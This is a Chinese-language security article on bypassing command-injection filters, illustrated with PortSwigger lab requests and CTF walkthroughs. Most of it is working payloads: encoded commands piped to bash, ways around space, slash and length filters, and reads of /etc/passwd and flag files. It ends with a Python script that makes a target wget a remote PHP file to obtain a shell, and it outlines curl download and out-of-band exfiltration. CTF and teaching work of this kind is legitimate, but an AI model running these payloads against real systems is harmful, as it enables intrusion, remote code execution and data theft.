


# 命令注入限制绕过思路刨析 - 先知社区

命令注入限制绕过思路刨析

- - -

### 文章前言

命令注入攻击是一种常见而危险的攻击方式，它可以使攻击者通过在目标系统中注入恶意命令来获取系统权限并执行恶意操作，为了应对命令注入攻击，开发人员们通常会采取各种限制措施，例如：输入验证、参数化查询等，然而正是在这些限制措施背后攻击者找到了一些巧妙的方法来绕过这些限制，从而成功地执行命令注入攻击，本文将重点关注命令注入限制绕过技术，探讨攻击者是如何利用漏洞和技术手段来绕过常见的命令注入防护措施的，我们将深入剖析一些常见的限制绕过技术

### 符号概念

#### |(管道符号)

管道符号 (|) 是一种在 Unix 和类 Unix 系统中使用的特殊字符，用于将一个命令的输出作为另一个命令的输入，它允许将多个命令连接在一起以实现数据流的传递和处理，假设文本文件 data.txt 中包含一些文本内容，你想要统计这个文件中的行数并将结果输出到终端，在 Unix、Linux 或类 Unix 系统中你可以使用"wc -l"命令计算文件中的行数，然后使用管道符号将其连接到 cat 命令将结果输出到终端

```plain
cat data.txt | wc -l
```

#### &(and 符)

&符号 (and 符) 用于将多个命令组合在一起使它们可以同时执行而不需要等待前一个命令的完成，这种方式常用于并行执行多个命令或将后台任务与前台任务结合起来，例如下面的命令行 command1 和 command2 是两个不同的命令，通过&符号将它们连接在一起，使它们可以同时执行，而不需要等待前一个命令的完成

```plain
command1 & command2
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240224141454-06997c26-d2dc-1.png)

#### &&(逻辑与)

&&符号 (逻辑与) 用于在命令行中执行多个命令并且只有前一个命令成功执行 (返回退出码为 0) 时才会执行下一个命令，它是一种短路逻辑，如果前一个命令执行失败 (返回退出码非零) 则不会执行后续的命令，逻辑与的语法格式如下所示：

```plain
command1 && command2 [&& command3 ...]
```

执行说明：

-   在&&左边的命令返回真 (命令返回值$? == 0)，&&右边的命令才会被执行
-   在&&只要有一个命令返回假 (命令返回值$? == 1)，后面的命令就不会被执行

[](https://xzfile.aliyuncs.com/media/upload/picture/20240224141528-1b4a40c4-d2dc-1.png)

#### ||(逻辑或)

||符号 (逻辑或) 用于在命令行中执行多个命令并且只有前一个命令执行失败 (返回退出码非零) 时才会执行下一个命令，它也是一种短路逻辑，如果前一个命令执行成功 (返回退出码为 0)，则不会执行后续的命令，逻辑或的语法格式如下所示：

```plain
command1 || command2 [|| command3 ...]
```

在上述示例中 command 和 command2 是两个不同的命令，通过||符号将它们连接在一起，使得在 command1 执行失败时会执行 command2，具体示例如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240224141600-2e7b80fe-d2dc-1.png)

#### ;(分号)

分号;用于分隔多个命令，使它们按顺序依次执行，无论前一个命令是否成功执行，分号后面的命令都会被执行，分号的语法格式如下所示：

```plain
command1 ; command2  [; command3 ...]
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240224141621-3aee30de-d2dc-1.png)

#### \`\`(反引号)

反引号 (也称为反撇号或 backtick) 用于执行命令并将命令的输出结果嵌入到另一个命令或上下文中，在下面的示例中演示了如何在 Linux 命令行中使用反引号，其中 command1 和 command2 是两个不同的命令，通过将 command2 放置在反引号\`中，可以将其执行结果嵌入到 command1 中

```plain
command1 `command2`
```

下面给出一个具体的执行示例：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240224141649-4ba60dc0-d2dc-1.png)

#### $() 符号

在 Linux 中$() 是一种命令替换语法，用于执行命令并将其输出结果嵌入到另一个命令或上下文中，下面是一个示例演示了如何在 Linux 命令行中使用$()，command1 和 command2 是两个不同的命令，通过将 command2 放置在$() 中，可以将其执行结果嵌入到 command1 中

```plain
command1 $(command2)
```

下面给出一个具体的执行示例：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240224141714-5a92505a-d2dc-1.png)

#### () 和{}

在 Linux 命令行中括号 () 和花括号{}是用来进行命令分组、子 shell 执行或参数替换的符号

1、括号 ()

-   命令分组：括号中的命令会作为一个独立的子进程在一个子 shell 中执行
-   变量赋值：可以将括号中的命令的输出结果赋值给变量

下面的示例中 command1 和 command2 是两个不同的命令，通过将这两个命令放置在括号 () 中，它们会作为一个独立的子进程在一个子 shell 中执行

```plain
(command1; command2)
```

执行示例如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240224141756-73938d4e-d2dc-1.png)

2、花括号{}  
花括号扩展：花括号中可以包含一个或多个值并以逗号分隔，在命令行中花括号会展开成多个值用于生成多个命令或参数的组合，在下面的示例中花括号{1..5} 包含了一个范围值，表示从 1 到 5，当执行命令时花括号会展开成多个值，即 1 2 3 4 5 并作为参数传递给 echo 命令

```plain
echo {1..5}
```

在下面的示例中花括号{.txt,.bak}包含了两个值，即.txt 和.bak，当执行命令时花括号会展开成两个值，即 file.txt 和 file.bak 并作为参数传递给 cp 命令

```plain
cp file{.txt,.bak}
```

### 文件描述

在 Linux 中文件描述符 (File Descriptor) 是用于标识和访问打开文件或输入/输出设备的整数值，每个打开的文件或设备都会被分配一个唯一的文件描述符，Linux 中的文件描述符使用非负整数值来表示其中特定的文件描述符有以下含义

-   标准输入 (stdin)：文件描述符为 0，通常关联着终端键盘输入
-   标准输出 (stdout)：文件描述符为 1，通常关联着终端屏幕输出
-   标准错误 (stderr)：文件描述符为 2，通常关联着终端屏幕输出

平时我们使用的"<"和">"其实就相当于是使用"0<"和"1>"，下面是几种常见的使用示例：

```plain
cmd > file          将输出重定向到 file
cmd < file          将输入重定向到 file
cmd >> file         将输出以追加的方式重定向到 file
cmd << file         将文本内容作为输入
cmd <> file         以读写模式把文件 file 重定向到输入
cmd >| file         将命令的标准输出强制覆盖写入到文件中，即使文件已经存在并且具有写保护
: > filename        将文件 filename 截断为 0 长度，如果文件不存在，那么就创建一个 0 长度的文件
cmd >&n             将命令的标准输出和标准错误输出都重定向到文件描述符 n
cmd m>&n            将一个文件描述符 m 重定向到另一个文件描述符 n
cmd >&-             关闭标准输出
cmd <&n             输入来自文件描述符 n* cmd m<&n  m 来自文件描述各个 n
cmd <&-             关闭命令的标准输入文件描述符
cmd <&n-            将命令的标准输入重定向自文件描述符 n 并关闭该文件描述符
cmd >&n-            将命令的标准输出和标准错误输出都重定向到文件描述符 n 并关闭该文件描述符
```

### 正则表达

正则表达式 (Regular Expression) 也被称为模式匹配表达式，是一种用于描述文本模式的表达式，它是一种强大而灵活的工具，在文本处理和模式匹配中广泛应用，正则表达式由字符和特殊字符组成用于定义搜索模式，它可以用于验证、查找、替换、提取或分割文本，在许多编程语言和文本编辑器中都提供了对正则表达式的支持，下面是一些常用的正则表达式的特殊字符和用法

#### 字符匹配：

普通字符：匹配与其自身相同的字符  
元字符：具有特殊意义的字符，如.(匹配任意字符) 和\*(匹配前面的字符零次或多次)  
字符类：用方括号\[\]表示，匹配方括号中的任意一个字符，例如：\[abc\]匹配字符'a'、'b'或'c'  
转义字符：用反斜杠\\表示，用于匹配特殊字符本身，例如：.匹配真正的句点字符

#### 重复匹配：

\*：匹配前面的字符零次或多次  
+：匹配前面的字符一次或多次  
?：匹配前面的字符零次或一次  
{n}：匹配前面的字符恰好 n 次  
{n,}：匹配前面的字符至少 n 次  
{n,m}：匹配前面的字符至少 n 次但不超过 m 次

#### 边界匹配：

^：匹配字符串的开头  
$：匹配字符串的结尾  
\\b：匹配单词边界  
\\B：匹配非单词边界

#### 分组捕获：

()：创建一个捕获组，可以对其中的内容进行分组或提取

#### 字符简写：

\\d：匹配任意数字字符  
\\w：匹配任意字母数字字符  
\\s：匹配任意空白字符

### 注入类型

#### 常规注入

在我们平时进行安全测试时可以注意一些类似与 IP 地址的参数以及诸如 ping 测试、Trace 测试的功能，此类功能大多数都有命令拼接，如果没有做合理的过滤处理或者限制则有可能导致命令执行，例如某 CDN 加速服务提供的 ipping 功能便未对用户输入的参数进行过滤，直接进行了命令拼接，此时直接可以拼接我们想要执行的命令来执行  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240224142016-c6f948c0-d2dc-1.png)

#### 盲注类型

在命令注入的盲注中攻击者注入的恶意命令被执行，但无法直接获得命令的输出或结果，这可能是因为应用程序没有将命令执行的结果返回给用户或者输出被其他方式隐藏或过滤掉，尽管如此攻击者仍然可以通过观察应用程序的行为，利用不同的技巧来确认命令是否成功执行，从而进行进一步的攻击，而在进行盲注操作之前我们需要确定盲注的存在，其中时间延迟是一个较好的选择，我们可以通过构造时间延迟的命令并根据执行的时间差异来判断是否存在注入风险，也阔以通过数据外带的方式来实现检测，下面给出一则示例：  
在进行正常业务功能测试时对 email 参数进行 fuzzing 测试时发现通过符号连接注入命令可以实现命令执行：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240224142040-d534a4f2-d2dc-1.png)  
除此之外我们还可以通过时间延迟来判断，下面是正常的请求：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240224142055-ddcb98be-d2dc-1.png)

随后我们使用 sleep 进行延迟操作，可以看到很明显的多了 10s

```plain
POST /feedback/submit HTTP/1.1
Host: 0a0c007603be1a0b853d5ec5009800c1.web-security-academy.net
Connection: close
Content-Length: 114
sec-ch-ua: "Not A(Brand";v="99", "Google Chrome";v="121", "Chromium";v="121"
sec-ch-ua-platform: "Windows"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: https://0a0c007603be1a0b853d5ec5009800c1.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a0c007603be1a0b853d5ec5009800c1.web-security-academy.net/feedback
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=T0sMRd22WQKwiSVx8915GP14pDDvjRuc

csrf=3pIgdreliOv1rBi2nHTKJmEsuwUhKgR0&name=QWQQ&email=longfei%40163.com+%26+sleep+10+%23&subject=test&message=1111
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240224142122-ee46c3ee-d2dc-1.png)

### 盲注利用

#### 利用方式 1

虽然在命令注入的盲注类型中我们执行的结果并不会在回显中展示，但是我们可以通过重定向的方式将注入命令的输出重定向到 web 根目录中的文件中，随后再使用浏览器检索该文件，例如：如果应用程序从文件系统位置/var/www/static 提供静态资源，那么我们可以提交以下输入将命令执行的结果重定向到一个 txt 文件中去，随后可以使用浏览器来获取[https://vulnerable-website.com/whoami.txt检索文件并查看注入的命令的输出](https://vulnerable-website.com/whoami.txt%E6%A3%80%E7%B4%A2%E6%96%87%E4%BB%B6%E5%B9%B6%E6%9F%A5%E7%9C%8B%E6%B3%A8%E5%85%A5%E7%9A%84%E5%91%BD%E4%BB%A4%E7%9A%84%E8%BE%93%E5%87%BA)

```plain
& whoami > /var/www/static/whoami.txt &
```

在基于以上注入检测发现命令注入漏洞的点位后我们可以通过一下方式来将我们注入的命令执行结果进行重定向操作：

```plain
POST /feedback/submit HTTP/1.1
Host: 0a79006b04b6238284e5bb5600ae0066.web-security-academy.net
Connection: close
Content-Length: 118
sec-ch-ua: "Not A(Brand";v="99", "Google Chrome";v="121", "Chromium";v="121"
sec-ch-ua-platform: "Windows"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: https://0a79006b04b6238284e5bb5600ae0066.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a79006b04b6238284e5bb5600ae0066.web-security-academy.net/feedback
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=5TpLf8MPquvWUsXWB1SApPbfyg3LWqKH

csrf=AjHRu5ULvg4evwywGajcQkAm1orbJUS1&name=QWQQ&email=||whoami>/var/www/images/output.txt||&subject=test&message=QWSGG
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240224142231-17453bf4-d2dd-1.png)  
随后我们直接访问对应的静态资源文件获取命令执行的结果即可：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240224142250-22c5c34a-d2dd-1.png)

#### 盲注利用 2

除去将执行的命令输出到静态资源文件中并访问静态资源获取执行的结果外，我们还可以通过 OOB 的方式获取执行结果，我们在以上的基础之上进行再次利用：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240224142315-31661d5a-d2dd-1.png)

### 过滤绕过

#### 黑名单类

有时候我们会遇到对参数中的命令进行黑名单匹配过滤的情况，例如：对操作系统的命令进行过滤处理，规避用户输入的 cat、ls、pwd 等系统命令，在这种场景下我们可以考虑如下的几类绕过思路：

##### 思路 1：拼接绕过

对于黑名单检测我们可以通过拼接的方式来实现绕过，例如：

```plain
a=c;b=at;c=fla;d=g;$a$b $c$d.txt
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240224142349-45c566e8-d2dd-1.png)

##### 思路 2：巧用引号

对于黑名单检测我们也可以巧妙的使用引号来进行绕过，例如：单引号、双引号方式

```plain
ca""t fla""g.txt
ca''t fla''g.txt
ca""t fla''g.txt
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240224142413-5417da0a-d2dd-1.png)

##### 思路 3：反斜杠类

对于黑名单检测我们也可以通过反斜杠的方式来实现绕过

```plain
ca\t fla\g.txt
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240224142434-60c558b8-d2dd-1.png)

##### 思路 4：特殊变量

对于黑名单检测我们也可以通过特殊变量 ($1、$2、$@等) 的方式来实现绕过，特殊变量的释义如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240224142449-69b3c9b4-d2dd-1.png)

具体演示如下：

```plain
ca$1t fl$@ag.txt
ca$1t fl$1ag.txt
ca$1t fl$2ag.txt
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240224142507-745e9f88-d2dd-1.png)

##### 思路 5：编码绕过

对于黑名单检测我们也可以通过 base64 编码方式进行绕过

```plain
`echo "Y2F0IGZsYWcudHh0"|base64 -d`
echo "Y2F0IGZsYWcudHh0"|base64 -d|bash
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240224142533-83992ad6-d2dd-1.png)

##### 思路 6：十六进制

对于黑名单检测我们也可以通过十六进制编码方式进行绕过：

```plain
echo 'cat flag.txt' |xxd
echo "0x63617420666c61672e7478740a" | xxd -r -p | bash
```

##### 思路 7：八进制类

对于黑名单检测我们也可以通过八进制编码方式进行绕过：

```plain
echo "cat flag.txt" | od -An -t o1
$(printf "\143\141\164\040\146\154\141\147\056\164\170\164\012")
```

##### 思路 8：通配符类

对于黑名单检测我们也可以通过通配符的方式进行绕过：  
通配符——?：用于匹配单个字符，当我们在命令行中使用？作为通配符时，它代表一个字符的位置，可以匹配任何单个字符 (除了斜杠/)，这对于模糊匹配文件名或路径非常有用

```plain
cat fl?g.txt
cat fla?.txt
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240224142705-ba51b8ae-d2dd-1.png)

```plain
/???/???/?at flag.txt
/???/?at flag.txt
/???/?[a]''[t] flag.txt
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240224142720-c3bf4b4a-d2dd-1.png)  
通配符——*：通配符*用于模糊匹配文件名或路径中的任意字符序列 (包括空字符序列)，它可以与命令行命令一起使用以匹配多个文件或路径

```plain
cat fl**
cat f**
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240224142738-ce17da94-d2dd-1.png)  
通配符——\[...\]：指定一个字符集合，匹配方括号中的任意一个字符，你可以使用单个字符、字符范围或字符列表来定义匹配模式

```plain
cat f[lc]ag.txt
cat fl[abc]g.txt
cat fla[bcdefg].txt
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240224142755-d892a800-d2dd-1.png)  
通配符——{...}：用于生成多个选项，并将其作为命令的参数，从而实现批量操作，它支持使用逗号分隔的多个选项

```plain
cat fl{a,b,c}g.txt
cat fla{d,g}.txt
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240224142812-e26860fe-d2dd-1.png)

```plain
c{a,b}t flag.txt
{c,a}{a,b}t flag.txt
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240224142826-eadc5376-d2dd-1.png)

##### 思路 9：命令代替

在进行安全评估时我们时常会用到 linux 下的一些系统命令来进行数据的操作，例如:cat 命令为查看，当程序禁用 cat 命令时，我们也可采用以下命令代替

```plain
cat                 从第一行开始显示内容，并将所有内容输出
tac                 从最后一行倒序显示内容，并将所有内容输出
more                根据窗口大小，一页一页的显示文件内容
less                根据窗口大小，显示文件内容
head                用于显示头几行
tail                用于显示最后几行
nl                  类似于 cat -n，显示时输出行号
tailf               类似于 tail -f
sort                读文件
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240224142849-f8798378-d2dd-1.png)

#### 空格检测

在我们构造命令执行的时候不可或缺的需要传入参数，此过程少不了通过空格来界定参数，而不少针对命令注入的防护中也会又很多地方对空格进行过滤处理，下面介绍几种绕过思路：

##### 思路 1：${IFS}类

在 Linux 中$IFS 是一个环境变量，表示"Internal Field Separator"(内部字段分隔符)，它用于指定命令行参数和输入流中字段 (单词) 之间的分隔符，默认情况下其值为包含空格、制表符和换行符的字符串：

-   ${IFS}：${IFS}是将$IFS 包裹在花括号中的形式，用于确保正确解析变量$IFS 的值，$IFS 是一个环境变量，表示"Internal Field Separator"(内部字段分隔符)，它用于指定命令行参数和输入流中字段 (单词) 之间的分隔符，默认情况下其值为包含空格、制表符和换行符的字符串，通过使用${IFS}可以确保在变量的值与其他字符相邻时 Shell 正确解析变量
-   $IFS$9：$IFS$9是将$IFS 和$9连接在一起的形式，在 Shell 脚本中$9表示第九个命令行参数的值，通过将$IFS 和$9连接在一起可以在脚本中使用特定的字段分隔符并访问命令行参数中的特定字段，例如：如果将$IFS 设置为冒号:，那么$IFS$9将被解析为字段分隔符后跟着第九个命令行参数的值
-   $IFS$1：$IFS$1类似于$IFS$9，$IFS$1是将$IFS 和$1连接在一起的形式，在 Shell 脚本中$1表示第一个命令行参数的值，通过将$IFS 和$1连接在一起可以在脚本中使用特定的字段分隔符并访问命令行参数中的第一个字段

在进行命令注入时如果过滤了空格我们可以使用$IFS 进行替换，相关的示例及变形如下所示：

```plain
cat${IFS}flag.txt
cat${IFS}$1flag.txt
cat${IFS}$9flag.txt
cat$IFS$9flag.txt
cat$IFS$1flag.txt
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240224142930-1145c56a-d2de-1.png)

##### 思路 2：重定向类

在进行命令注入时如果过滤了空格我们可以使用重定向进行替换，相关的示例及变形如下所示：

```plain
cat<flag.txt
cat<>flag.txt
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240224142954-1f56e42c-d2de-1.png)

##### 思路 2：花括号类

在进行命令注入时如果过滤了空格我们可以使用花括号进行替换，相关的示例及变形如下所示：

```plain
{cat,flag.txt}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240224143014-2b80f562-d2de-1.png)

##### 思路 3：十六进制

在进行命令注入时如果过滤了空格我们可以使用十六进制进行替换，相关的示例如下所示：

```plain
X=$'cat\x20/etc/passwd'&&$X
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240224143035-37ae6db0-d2de-1.png)

##### 思路四：换行拼接

在进行命令注入时如果过滤了空格我们可以使用换行拼接进行替换，相关的示例如下所示：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240224143052-41cebea8-d2de-1.png)

#### 过滤斜杆

在进行命令注入时有时候我们输入的斜杠会被直接过滤处理来规避文件路径的构造，此时我们可以通过一下方式进行绕过：

##### 思路 1：${HOME:0:1}

我们可以使用${HOME:0:1}来替代"/"：

```plain
cat /etc/passwd ---->>> cat ${HOME:0:1}etc${HOME:0:1}passwd
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240224143116-5057db80-d2de-1.png)

##### 思路 2：${echo . | tr `!-0` `"-1`}

我们可以使用$(echo . | tr '!-0' '"-1') 来替代"/"：

```plain
cat $(echo . | tr '!-0' '"-1')etc$(echo . | tr '!-0' '"-1')passwd
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240224143135-5bb02cda-d2de-1.png)

#### 长度检测

在进行命令注入时我们会发现后端有对我们的命令进行长度检查和限制操作，导致我们无法完全注入我们的命令，此时我们可以考虑一下方式进行绕过：

##### 思路 1：标准输出

在进行命令注入时如果有长度限制我们可以使用标准输出的方式进行绕过，这种思路说白了就是先将我们要执行的命令作为文件夹名称，随后一个 ls 去将文件名称写入一个 bash 脚本中，随后使用 bash 来执行命令的过程，这里我们可以使用"\\"来达到目的，此种方法无需考虑文件的创建时间次序，相关的示例如下所示：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240224143157-68682022-d2de-1.png)  
同时我们也可以使用"\\"来达到目的，不过需要注意的时在创建的时候需要逆序创建文件，原理和上面概述的一样，这里就不再过多的去进行赘述了

```plain
>\ al1ex\\
>cho\\
>e\\
ls -t > a
cat a
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240224143215-731dddea-d2de-1.png)

##### 思路 2：命令换行

在进行命令注入时如果有长度限制我们可以使用换行拼接进行替换，相关的示例如下所示：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240224143229-7bbac134-d2de-1.png)

### 截断操作

在进行命令注入时通常会从前端获取数据执行系统预设定的命令，而我们要想执行其他的命令就必须要通过使用截断符号让系统去执行其他命令，下面时常见的几种截断符号：

```plain
$
;
|
-
(
)
`
||
&&
&
}
{
%0a
%0d
......
```

下面给出几个示例：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240224143303-9029629c-d2de-1.png)

### CTF 示例

#### 死亡 ping 命令

访问靶场地址可以看到这里直接就是一个 Ping 测试的表单页面：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240224143321-9a82bf90-d2de-1.png)  
我们拼接一个 ls 命令并提交时会得到"IP 包含恶意字符。"的回显提示，说明此处有对字符进行黑名单的过滤处理：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240224143337-a47d80a2-d2de-1.png)  
通过简易的测试发现%0a 可以用于截断并执行命令，同时我们可以看到这里并没有任何命令的执行回显，所以说这是一个盲注点

[](https://xzfile.aliyuncs.com/media/upload/picture/20240224143435-c6f545d4-d2de-1.png)  
随后通过 OOB 检测验证漏洞确实存在，而我们这里需要去读取 flag 文件，而由于 WEB 目录文件不知道位置所在所以没法直接写命令执行结果到静态资源文件中去，但是我们可以通过 curl 实现远程的文件下载到目标主机本地并赋予执行权限，随后通过系统自带的命令实现数据外带，在我们的监听一段获取到执行的结果，由于利用需要同网段的主机，这里就不做演示了，只提供思路  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240224143451-d050656e-d2de-1.png)

#### Ping Ping Ping

访问靶场地址时可以看到一个"/?ip="的提示信息：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240224143512-dcb8b748-d2de-1.png)  
随后我们在 URL 中构造此查询语句并传入参数，可以看到此时会执行命令并进行回显操作：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240224143541-ee05d896-d2de-1.png)  
紧接着我们去拼接其他的命令来尝试执行：

```plain
/?ip=127.0.0.1|ls
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240224143608-fe7a2524-d2de-1.png)

可以看到我们的 flag.php 文件，随后尝试读取改文件：

```plain
/?ip=127.0.0.1|cat flag.php
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240224143638-100e7434-d2df-1.png)  
竟然提示"fxck your space!"，很明显的这里把我们路径中的空格给过滤掉了，所以要想获取到 flag 那么就必须绕过此处的空格过滤，在这里我们提供一下几种方法：

**方式 1：$IFS$9+ 关键词绕过**  
由于过滤了空格，所以我们想到的第一种方法就是使用$IFS$9来绕过过滤，但是在尝试时发现并不能如我们预期所料，反而是出现了换行的情况且并未读取到我们想要的 flag.php 文件  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240224143702-1e9ec7b0-d2df-1.png)  
非常非常奇怪，随后我们尝试读取同目录下的另一个文件—index.php  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240224143721-297cc7cc-d2df-1.png)  
从下面的过滤函数可以看到这里想进行了正则匹配，首先通过正则表达式匹配攻击者可能使用到的一系列的字符和字符类，随后进行空格匹配、bash 匹配、flag 关键字匹配，而我们上面之所以出现"fuck your flag"提示则是因为匹配到了 flag 关键词

```plain
<?php
if(isset($_GET['ip'])){
  $ip = $_GET['ip'];
  if(preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{1f}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "<pre>";
  print_r($a);
}
?>
```

知道了是怎么回事后，我们便可以根据具体的检测方式来进行 bypass，经过尝试后发现这里可以通过拼接实现绕过：

```plain
1;a=ag;b=fl;cat$IFS$1$b$a.php
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240224143804-4336fd22-d2df-1.png)  
备注：需要注意的是如果我们使用正常的次序进行拼接的时候会依旧被检查到，导致绕不过去，有点小奇怪，所以遇到此类问题不妨调转一下次序看看，这一点在之前进行 PHP 木马免杀的时候也很是有效

[](https://xzfile.aliyuncs.com/media/upload/picture/20240224143820-4cb3cb6e-d2df-1.png)

**方式二：通过编码的方式实现绕过**

经过尝试我们也可以使用 base64 编码的方式来进行绕过：

```plain
GET /?ip=|echo$IFS$9Y2F0JElGUyQ5ZmxhZy5waHA=|base64$IFS$9-d|sh HTTP/1.1
Host: a7609141-d430-4e44-90b7-c7504683172b.node5.buuoj.cn:81
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240224143850-5ebaaff8-d2df-1.png)

**方式三：直接读取整个目录下所有文件**

其实这里还有一种思路就是既然这里对 flag 进行了全匹配且当前目录下仅两个文件，那么我们是否可以直接读取当前目录下的所有文件内容而不用去特定指定 flag.php 文件名呢，答案是可以的，具体实现如下：

```plain
/?ip=;cat$IFS`ls`
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240224143919-702d655a-d2df-1.png)

#### 七字长度绕过

本题目是由 phith0n 出的一个关于字符长度限制的试题，题目源代码如下所示：

```plain
<?php
    if(strlen($_GET[1])<8){
        echo shell_exec($_GET[1]);
    }
?>
```

从上面的源代码可以看到这里对获取到的参数进行了长度检查，要求长度小于 8，在这里我们可以使用上面提到的标准输入进行解题，具体如下：

```plain
?1=>hp
?1=>ell.p\\
?1=>\ sh\\
?1=>\ -O\\
?1=>xxx\\
?1=>xxx.\\
?1=>xxx.\\
?1=>\ xx\\
?1=>wget\\
?1=ls -t>a
?1=sh a
```

下面的脚本是在 phith0n 的基础上改的 python3 版本，通过运行脚本尝试 getshell 操作，这里的 fileNames 中的域名信息需要按需进行替换：

```plain
#!/usr/bin/python3
# -*- coding: utf-8 -*-

import requests

def GetShell():
    url = "http://127.0.0.1/ctf.php?1="
    fileNames = ["a.php", "-O\\ \\", "cn\\ \\", "\\ liuwei.\\", "wget\\"]

    for fileName in fileNames:
        createFileUrl = url + ">" + fileName
        print(createFileUrl)
        requests.get(createFileUrl)

    getShUrl = url + "ls -t>1"
    print(getShUrl)
    requests.get(getShUrl)
    getShellUrl = url + "sh 1"
    print(getShellUrl)
    requests.get(getShellUrl)

    shellUrl = "http://127.0.0.1/1.php"
    response = requests.get(shellUrl)
    if response.status_code == 200:
        print("[*] Get shell!")
    else:
        print("[*] fail!")

if __name__ == "__main__":
    GetShell()
```

脚本运行结果如下 (需要注意的是目标的环境得是 Linux 环境哦，不然没得 sh 命令的哇)：

